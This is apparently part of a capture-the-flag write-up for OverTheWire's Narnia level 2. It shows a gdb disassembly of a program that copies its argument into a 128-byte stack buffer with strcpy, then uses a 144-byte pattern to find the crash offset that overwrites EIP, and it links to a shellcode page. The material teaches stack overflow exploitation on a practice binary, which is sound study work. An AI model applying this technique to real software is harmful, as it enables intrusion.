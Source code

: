 The following snippet shows the disassembled code for the main function in gdb.

    (gdb) set disassembly-flavor intel
    (gdb) set pagination off
    (gdb) disas main 
    Dump of assembler code for function main:
    0x08049186 <+0>:	push   ebp
    0x08049187 <+1>:	mov    ebp,esp
    0x08049189 <+3>:	add    esp,0xffffff80
    0x0804918c <+6>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08049190 <+10>:	jne    0x80491ac <main+38>
    0x08049192 <+12>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08049195 <+15>:	mov    eax,DWORD PTR [eax]
    0x08049197 <+17>:	push   eax
    0x08049198 <+18>:	push   0x804a008
    0x0804919d <+23>:	call   0x8049040 <printf@plt>
    0x080491a2 <+28>:	add    esp,0x8
    0x080491a5 <+31>:	push   0x1
    0x080491a7 <+33>:	call   0x8049060 <exit@plt>
    0x080491ac <+38>:	mov    eax,DWORD PTR [ebp+0xc]
    0x080491af <+41>:	add    eax,0x4
    0x080491b2 <+44>:	mov    eax,DWORD PTR [eax]
    0x080491b4 <+46>:	push   eax
    0x080491b5 <+47>:	lea    eax,[ebp-0x80]
    0x080491b8 <+50>:	push   eax
    0x080491b9 <+51>:	call   0x8049050 <strcpy@plt>
    0x080491be <+56>:	add    esp,0x8
    0x080491c1 <+59>:	lea    eax,[ebp-0x80]
    0x080491c4 <+62>:	push   eax
    0x080491c5 <+63>:	push   0x804a01c
    0x080491ca <+68>:	call   0x8049040 <printf@plt>
    0x080491cf <+73>:	add    esp,0x8
    0x080491d2 <+76>:	mov    eax,0x0
    0x080491d7 <+81>:	leave
    0x080491d8 <+82>:	ret

After running the program with this input (length 144)

    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ1111222233334444555566667777888899990000

we can identify where the Segmentation Fault occured.

    (gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ1111222233334444555566667777888899990000
    Starting program: /narnia/narnia2 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ1111222233334444555566667777888899990000
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Program received signal SIGSEGV, Segmentation fault.
    0x38383838 in ?? ()
    (gdb) info reg 
    eax            0x0                 0
    ecx            0x0                 0
    edx            0x0                 0
    ebx            0xf7fade34          -134554060
    esp            0xffffd210          0xffffd210
    ebp            0x37373737          0x37373737
    esi            0xffffd2d0          -11568
    edi            0xf7ffcb60          -134231200
    eip            0x38383838          0x38383838
    ...
    ...


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html